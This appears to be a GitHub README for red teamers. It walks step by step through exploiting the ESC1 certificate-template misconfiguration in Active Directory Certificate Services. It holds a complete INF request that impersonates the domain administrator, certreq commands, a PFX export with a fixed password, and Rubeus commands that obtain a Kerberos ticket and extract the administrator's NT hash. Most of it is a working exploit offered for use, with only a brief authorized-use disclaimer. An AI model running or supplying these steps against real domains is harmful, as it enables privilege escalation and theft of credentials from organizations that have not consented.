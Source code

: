 # ESC1_Build_In_Script

This script is designed to assist penetration testers and Red Teamers in conducting security assessments.

When operating in "live infrastructure," leveraging automation tools signed by native security and control mechanisms within Active Directory environments can introduce challenges, as these tools are tightly integrated with domain infrastructure.

In this guide, I will demonstrate how to exploit the ESC1 vulnerability in an Active Directory environment with Active Directory Certificate Services (ADCS). This will be achieved without relying on third-party tools, using only built-in Windows utilities.

The process includes:

Identifying a vulnerable certificate template configured with misconfigurations that allow unauthorized certificate enrollment.
Requesting a certificate on behalf of any user in the domain by exploiting the identified vulnerable template.
Utilizing the certificate for impersonation to escalate privileges or access restricted resources.
This demonstration highlights the importance of proper certificate template hardening and serves as a practical guide to understanding the risks associated with improperly secured ADCS implementations.

This guide is intended for authorized security assessments only. Unauthorized use or actions without proper consent may violate laws and regulations. Always ensure you have explicit permission before conducting such activities.

Enjoy learning and, most importantly, stay safe!

## **Step-by-Step Instructions**

### 1. **Create an INF file**
```ini
[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local" 
KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
ProviderName = "Microsoft Enhanced Cryptographic Provider v1.0"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.2  ; Client Authentication

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

Change the Subject record to the Distinguished Name (DN) of the user account you want to impersonate:
```
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local"
```

Additionally, update the continue record as well:
```
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

### 2. **After creating the INF file, generate a CSR file using the following command:**
```
certreq -new My_request.inf My_request.csr
```

### 3. **Next, submit the CSR to the CA server, specifying the desired certificate template, and save the issued certificate:**
```
certreq -submit -attrib "CertificateTemplate:My_Template" My_request.csr My_Cert.cer
```

### 4. **Finally, accept and install the issued certificate using the following command:**
```
certreq -accept My_Cert.cer
```

### 5. **Next, locate the Thumbprint of the certificate by running the following command:**
```
Get-ChildItem Cert:\CurrentUser\My
```

### 6. **Afterward, generate a PFX file by executing the following commands:**
```
$password = ConvertTo-SecureString -String '1qaz!QAZ' -AsPlainText -Force
Export-PfxCertificate -Cert Cert:\CurrentUser\My\5440925da4167c5f92cd9cf66a4f68622f63e1c7 -FilePath administrator.pfx -Password $password
```

### 7. **Now, with the PFX file, you can use Rubeus to request a TGT (Ticket Granting Ticket) using the certificate. Execute the following command:**
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /ptt
```

Of course, since we're working with the PKINIT protocol, we can exploit the use of the User-to-User (U2U) mechanism. This allows us to request a TGS (Ticket Granting Service) for a service that belongs to ourselves (yes, it sounds strange, but it works).

The TGS ticket we receive will include a PAC (Privilege Attribute Certificate), and within that PAC, we can extract the NT Hash of the user account we impersonated.

Just add the /getcredentials flag with the rubeus tool:
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /getcredentials
```
